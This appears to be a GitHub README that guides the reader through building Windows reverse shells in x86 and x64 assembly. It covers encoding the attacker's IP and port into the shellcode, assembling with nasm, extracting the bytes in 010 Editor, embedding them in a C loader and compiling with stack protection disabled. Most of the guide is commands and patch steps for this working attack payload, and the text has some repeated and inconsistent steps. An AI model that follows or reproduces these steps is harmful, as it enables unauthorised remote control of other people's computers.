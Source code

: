 Please, consider make a donation: https://github.com/sponsors/therealdreg

# Dreg Shells Guide

**WARNING**: the ugliest code in the world

# Compile from Linux or WSL

```
sudo apt-get install nasm
./compile.sh
./compile64.sh
```

## Dependecies

```bash
apt-get install gcc mingw-w64 nasm -y
```

## Apps used

- [010 Editor](https://www.sweetscape.com/010editor/)

## Reverse shell Assembly x86
---

Firts you will need to change the ip and the port in the shellcode, to do this you will be using the [genipport.sh](/genipport.sh).

In the ip line (line 24) and the port line (line 25) with your ip and your port. Then execute the script and the output it's going to be like the following: 
```bash
root {debian} $ ./genipport.sh
ip: 127.0.0.1
port: 4444
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
syslinux-utils is already the newest version (3:6.04~git20190206.bf6db5b4+dfsg1-3+b1).
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
converting IP....
converting: 7F000001
endian: 0100007F
IP converted: FEFFFF80
converting PORT....
converting: 115C
endian: 5C11
port converted: A3EE
```

You will be geting the "IP converted" and the "port converted" output and and you will have to put it with a 0x each of the outputs in the following lines of the shellcode.

```assembly
push dword 0x77D23CCC ; line 238
push word 0xA3EE ; line 240
```
And making the changes, this is how the two lines "with my output" would look like.
```assembly
push dword 0xFEFFFF80 ; line 223 
push word 0xA3EE ; line 225
```
The next thing we will do is compile the assembler file to an object file with the following command:
```bash
nasm -f win32 reverse_asm.asm -o reverse_shell.o
```
After compiling to an object file we will use the 010 editor and add the file to the editor we will look where the shellcode begins. How?

![Alt text](/images/v8YjDpT.png)

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

```assembly
pushfd
```

To know if it agrees we will click on the tools section and then to dissembler

To know if it agrees we will click on the tools section and then dissembler. Then we will choose the section of X86(64-Bit) and click dissamble.

![Alt text](/images/BWJenLL.png)

And this panel will appear, and we will look in Value for the string that we mentioned before "pushfd".

![Alt text](/images/fCEEq3q.png)

From then on we can select everything since there will be no problem. When we have everything selected we will copy it as C code.

![Alt text](/images/mTFErYK.png)

When we have it copied, we will change the shellcode of the "reverse_c.c" file for the one we have in the clipboard including the function name throughout the code.

Then we will compile to an exe file with the following command and our reverse shell will be ready.

```bash
i686-w64-mingw32-gcc -fno-stack-protector -o test.exe test.c
```

---
## Reverse shell Assembly x64

Firts you will need to change the ip and the port in the shellcode, to do this you will be using the [genipport.sh](/genipport.sh).

In the ip line (line 24) and the port line (line 25) with your ip and your port. Then execute the script and the output it's going to be like the following: 
```bash
root {debian} $ ./genipport.sh
ip: 127.0.0.1
port: 4444
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
syslinux-utils is already the newest version (3:6.04~git20190206.bf6db5b4+dfsg1-3+b1).
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
converting IP....
converting: 7F000001
endian: 0100007F
IP converted: FEFFFF80
converting PORT....
converting: 115C
endian: 5C11
port converted: A3EE
```

You will be geting the "IP converted" and the "port converted" output and and you will have to put it with a 0x each of the outputs in the following lines of the shellcode.

```assembly
push dword 0x77D23CCC ; line 260
push word 0xA3EE ; line 264
```
And making the changes, this is how the two lines "with my output" would look like.
```assembly
push dword 0xFEFFFF80 ; line 260
push word 0xA3EE ; line 264
```
The next thing we will do is compile the assembler file to an object file with the following command:
```bash
nasm -f win64 reverse_asm.asm -o reverse_shell.o
```
After compiling to an object file we will use the 010 editor and add the file to the editor we will look where the shellcode begins. How?

![Alt text](/images/v8YjDpT.png)

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

```assembly
sub rsp, 0x30
```

To know if it agrees we will click on the tools section and then dissembler. Then we will choose the section of X86(32-Bit) and click dissamble.

![Alt text](/images/hTAv7CY.png)

And this panel will appear, and we will look in Value for the string that we mentioned before "sub rsp, 0x30".

![Alt text](/images/fCEEq3q.png)

From then on we can select everything since there will be no problem. When we have everything selected we will copy it as C code.

![Alt text](/images/mTFErYK.png)

When we have it copied, we will change the shellcode of the "reverse_c64.c" file for the one we have in the clipboard including the function name throughout the code.

Then we will compile to an exe file with the following command and our reverse shell will be ready.

```bash
x86_64-w64-mingw32-gcc -fno-stack-protector -o test.exe test.c
```

# Tested

## x86_64

* Windows 10
* Windows Server 2019
* Windows 7

## x86

* Windows 10 
* Windows XP 

